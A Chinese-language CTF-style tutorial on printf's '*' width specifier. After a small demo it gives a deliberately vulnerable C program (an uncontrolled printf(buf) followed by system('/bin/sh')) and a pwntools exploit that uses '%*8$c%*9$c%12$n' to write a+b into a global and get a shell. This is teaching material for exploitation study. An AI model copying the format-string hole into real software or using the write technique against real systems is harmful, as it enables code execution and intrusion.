

##  *号的用法

*在printf里可以代表一个泛整数，可以代表任何整数。它可以出现在位宽的位置，也可以出现在小数位数的位置。 

对于下面这个程序

```c
#include<stdio.h>
int main(){
	float a = 3.14;
	printf("num:%*.2f",6,a);
}
```

它的输出是

```shell
num:  3.14
```

也就是%*.2f这个格式化参数在输出时一共占了6个字符大小。


那么下面给出一道例题

```c
//gcc -o test test.c -no-pie -g
#include<stdio.h>
#include<unistd.h>
#include<fcntl.h>
#include <stdlib.h>
long long num=0;
int main(){
	char buf[0x18];
	long long a=0;
	long long b=0;
	int fp = open("/dev/urandom",O_RDONLY);
	read(fp,&a,2);
	read(fp,&b,2);
	close(fp);
	puts("your name:");
	read(0,buf,0x18);
	puts("guess a number:");
	scanf("%lld",&num);
	printf(buf);
	
	if(a+b==num){
		puts("win!");
		system("/bin/sh");	
	}else{
		puts("wrong!");
		exit(0);
	}
}
```


不考虑爆破的情况，这里虽然可以通过格式化字符串泄露这两个值，但是这里只能先猜，所以这里用*来修改内存，先输出a、b两个数的宽度再用%n写入num，达到num=a+b的效果。

栈上情况



exp

```python
from pwn import*
p = process('./test')
num_addr = 0x601078
payload = '%*8$c%*9$c%12$n'.ljust(0x10,'a')+p64(num_addr)
p.sendafter('\n',payload)
p.sendlineafter('\n','0')
p.interactive()
```

